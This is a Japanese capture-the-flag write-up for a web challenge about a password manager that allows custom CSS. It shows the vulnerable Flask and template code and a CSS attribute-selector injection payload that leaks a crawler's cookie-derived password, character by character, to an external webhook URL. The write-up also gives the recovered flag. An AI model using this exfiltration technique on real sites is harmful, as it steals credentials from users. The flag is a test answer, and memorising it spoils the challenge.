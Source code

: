 # Passwd manager

パスワード管理アプリを作りました！  
なんと、CSSがカスタマイズできます！  

(url)  
flag format: `/^flag{[a-z]*}$/`  

## 配布ファイル

[distfiles](../distfiles)

## writeup

アクセスすると以下のような感じ。

![passwdmanager](./img/passwdmanager.png)

上からユーザ名とパスワードを保存する欄、CSSをカスタマイズする欄、クローラに提出する欄。

exampleを押すと、CSSの例が入力される。

![red](./img/red.png)

ユーザ名に`y0d3n`, パスワードに`password`を入力したとき、  
自分のCookieは`"user=y0d3n; passwd=password"`。

```python
user = request.cookies.get('user', None)
passwd = request.cookies.get('passwd', None)

return render_template("index.html", css=css, user="" if user == None else user , passwd="" if passwd == None else passwd)
```

```html
<input type="text" name="user" placeholder="Your name" value="{{ user }}">
<input type="text" name="passwd" placeholder="Password" value="{{ passwd }}">
```

Cookieからそれぞれ抽出してユーザ名とパスワードにセットしてることがわかる。

クローラのCookieを見てみると、パスワードにflagが設定されている。

```json
[
    {
        "name": "user",
        "value": "admin",
        "domain": "python",
        "path": "/"
    },
    {
        "name":"passwd",
        "value": "flag{***CENSORED***}",
        "domain": "python",
        "path": "/"
    }
]
```

クローラがCSSを見に行った時に表示されているパスワードを盗めばflagが手に入る。

CSSを編集できるとなると、CSS injectionが有効そう。
適当にググって自分で試してみる。

```css
input[value^=y0d3n] {background: url([url]?value=y0d3n);}
```

> `^=`は前方一致。`value`が`y0d3n`から始まる`input`に、CSSが反映される。

このCSSを入力するとurlにアクセスがくる。(自分はサーバに<https://webhook.site/>を使用しています)

![y0d3n](./img/y0d3n.png)

`flag{`に変えてadminに提出する。

> ※ `{`はエスケープする必要があるので、`\{`になる

```css
input[value^=flag\{] {background: url([url]?value=flag{);}
```

![flag{](./img/flag{.png)

`flag\{a`を提出してもアクセスが来ないが、`b`, `c`...と試しているうちに`flag\{i`を提出するとアクセスが来る。  
この要領で一文字ずつ特定していく。

> 問題文からflagのフォーマットが`/^flag{[a-z]*}$/`なのがわかるので、大文字と数字は試さなくて良い。

```txt
flag\{
flag\{i
flag\{it
flag\{iti
flag\{itis
  :
flag\{itiscssinjection\}
```

`flag{itiscssinjection}`
